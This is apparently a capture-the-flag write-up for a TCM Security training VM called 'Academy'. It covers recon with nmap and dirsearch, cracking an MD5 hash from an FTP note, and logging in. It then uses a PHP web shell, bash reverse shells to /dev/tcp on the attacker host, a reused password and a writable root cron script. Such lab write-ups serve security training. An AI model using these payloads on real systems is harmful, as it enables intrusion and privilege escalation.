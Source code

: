 # TCM Security - Academy
> Writeup for Academy machine challenge from PEH course of TCM Security

Challenge File: https://drive.google.com/drive/folders/1VXEuyySgzsSo-MYmyCareTnJ5rAeVKeH

---------------

<br>

Run `sudo netdiscover -r 192.168.0.0/24` before starting the target VM to capture all available devices in subnet \
now start the target VM and wait for new machine IP entry it will be the IP of our target VM.

Before starting the target VM 
![image](https://github.com/Aftab700/Writeups/assets/79740895/264f4aa5-62fd-47d0-bb51-88a1fe8211e7)

After starting the target VM 

![image](https://github.com/Aftab700/Writeups/assets/79740895/48ec1846-d9e4-4f40-a996-91b68db451f8)


Now that we have the target IP `192.168.0.113` let's run the `nmap`

<details><summary markdown="span">Click to see nmap result :diamond_shape_with_a_dot_inside: </summary>

```bash                                                                                                           
┌──(Jack㉿Sparrow)-[~/Downloads]
└─$  nmap -sC -sV -T5 192.168.0.113 -oA nmap_Academy.txt -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-02 13:58 EST
Warning: 192.168.0.113 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.0.113
Host is up (0.0050s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE    SERVICE       VERSION
21/tcp   open     ftp           vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.207
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open     ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c744588690fde4de5b0dbf078d055dd7 (RSA)
|   256 78ec470f0f53aaa6054884809476a623 (ECDSA)
|_  256 999c3911dd3553a0291120c7f8bf71a4 (ED25519)
80/tcp   open     http          Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
1046/tcp filtered wfremotertm
1055/tcp filtered ansyslmd
1434/tcp filtered ms-sql-m
2038/tcp filtered objectmanager
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
```
</details>


Here we see that port `21,22,80` are open. 

In port 21 Anonymous FTP login is allowed  \
to see what files are present in this ftp we can open `ftp://192.168.0.113/` in windows File Explorer or we can also use curl

![image](https://github.com/Aftab700/Writeups/assets/79740895/94033cfd-6173-49d2-bc31-18b3621d137f)

![image](https://github.com/Aftab700/Writeups/assets/79740895/8028de5e-668e-4123-8aef-42e27cb07c85)


The note says `The StudentRegno number is what you use for login` which is `10201321` and
we have one password hash `cd73502828457d15655bbd7a63fb0bc8`. use tools like https://crackstation.net/ to crack the hash. \
This is md5 of `student`. \
now we have login credentials `10201321:student` note this for now and let's move to http site.

<br>

`http://192.168.0.113/` is Apache2 Debian Default Page

![image](https://github.com/Aftab700/Writeups/assets/79740895/d0094763-f520-4028-a338-0aca0d6cb604)


There is nothing much to see in this default page so let's do the directory brute force

<details><summary markdown="span">Click to see dirsearch result :diamond_shape_with_a_dot_inside: </summary>

```bash
┌──(Jack㉿Sparrow)-[~]
└─$ dirsearch -u http://192.168.0.113/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )
                                                                                                                                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 141672

Output File: /home/kali/.dirsearch/reports/192.168.0.113/-_24-02-04_03-17-49.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-02-04_03-17-49.log

Target: http://192.168.0.113/

[03:17:49] Starting: 
[03:18:19] 301 -  319B  - /phpmyadmin  ->  http://192.168.0.113/phpmyadmin/
[03:19:57] 301 -  316B  - /academy  ->  http://192.168.0.113/academy/       
                                                                              
Task Completed
```

</details>

We found the `/phpmyadmin/` and `/academy/` directories

on the `http://192.168.0.113/academy/` page we have one login form

![image](https://github.com/Aftab700/Writeups/assets/79740895/8dcd96ba-f63a-4524-9ea6-95156c8ce0df)


Let's try the login login credentials `10201321:student` that we found previously from ftp note.

![image](https://github.com/Aftab700/Writeups/assets/79740895/a36b56d4-987e-4e97-834f-f1f0fc105bf4)


It worked we are now logged in

On the My Profile page we have file upload functionality

try uploading simple php shell `<?php system($_REQUEST['cmd']); ?>` and it is not blocked we now have the ability to execute commands on server

![image](https://github.com/Aftab700/Writeups/assets/79740895/08e0c9d1-2522-4e8a-9fc3-4a19c13bc969)


we can get reverse shell by this payload `cmd=bash+-c+"bash+-i+>%26+/dev/tcp/192.168.0.207/9001+0>%261"`

![image](https://github.com/Aftab700/Writeups/assets/79740895/4dc9b13a-e0a3-4ff4-82fd-5a32fb2b0270)

![image](https://github.com/Aftab700/Writeups/assets/79740895/4cf54a48-a797-4c62-ae47-f0e3a7fa91a5)


In the config.php file we have the mysql_password `My_V3ryS3cur3_P4ss` and in the ftp note we show line `I told him not to use the same password everywhere` which implies 
that user Grimmie is reusing the same password so we can try to use this password to switch to user Grimmie

![image](https://github.com/Aftab700/Writeups/assets/79740895/a6efd8be-7132-4ee9-86b2-b44bcb917ba6)


looking at crontab we notice that `/home/grimmie/backup.sh` file is running as root and we can modify this file to get root access

![image](https://github.com/Aftab700/Writeups/assets/79740895/ee82ccab-380c-485d-855c-247e8e2e7dcc)


Reverse shell payload to get shell as root: 

`echo 'bash -c "bash -i >& /dev/tcp/192.168.0.207/9002 0>&1"' > backup.sh`

![image](https://github.com/Aftab700/Writeups/assets/79740895/0c2c4b55-7951-4637-ab07-86077b1ce395)

![image](https://github.com/Aftab700/Writeups/assets/79740895/b1a801aa-7b03-4d4d-849a-6a7532c95b22)


Flag:

![image](https://github.com/Aftab700/Writeups/assets/79740895/50dbf9b2-9236-4656-95ff-e7747b222a6c)

<br>

:octocat: Happy Hacking :octocat:

